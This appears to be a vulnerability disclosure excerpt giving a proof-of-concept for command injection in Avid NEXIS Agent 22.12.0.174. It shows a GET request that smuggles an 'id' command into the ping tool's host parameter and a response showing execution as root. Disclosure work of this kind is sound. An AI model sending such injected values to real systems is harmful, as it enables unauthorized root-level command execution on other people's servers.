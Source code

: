 ### Proof of Concept

The vulnerability can be triggered with the following GET request:

```http
GET /agent?r=tools&type=ping&host=127.0.0.1;id HTTP/1.1
Host: 192.168.40.141:5015
Cookie: avidagent=12345; userveragenttoken=3543434935133395140
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/119.0.6045.159 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Accept: */*
Sec-Fetch-Site: same-origin
 Sec-Fetch-Mode: no-cors
 Sec-Fetch-Dest: script
 Referer: https://192.168.40.141:5015/agent
 Accept-Encoding: gzip, deflate, br
 Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
 Priority: u=1
 Connection: close
 ```
 
 The response looks like this (stripped):
 
 ```http
 HTTP/1.1 200 OK
Server: gSOAP/2.8
Content-Type: text/html; charset=utf-8
Content-Length: 3581
Connection: close
<html>
<head>
<title>192.168.40.141 - Avid NEXIS&#174; Agent 22.12.0.174</title>
...
<b class='rtop'><b class='r1'></b><b class='r2'></b><b class='r3'></b><b class='r4'></b></b><div id="content">12 <div style='display:none;' id='glassPane'><span class='aligner'></span><h4 class='align' id='glassPaneMessage'></h4></div><h2 class="table-title">
Ping Results
</h2>
<div class="plain">
<pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.040 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.045 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.067 ms
--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2029ms
rtt min/avg/max/mdev = 0.040/0.050/0.067/0.014 ms
uid=0(root) gid=0(root) groups=0(root)context=system_u:system_r:unconfined_service_t:s0
</pre></div>
</div>
...
```
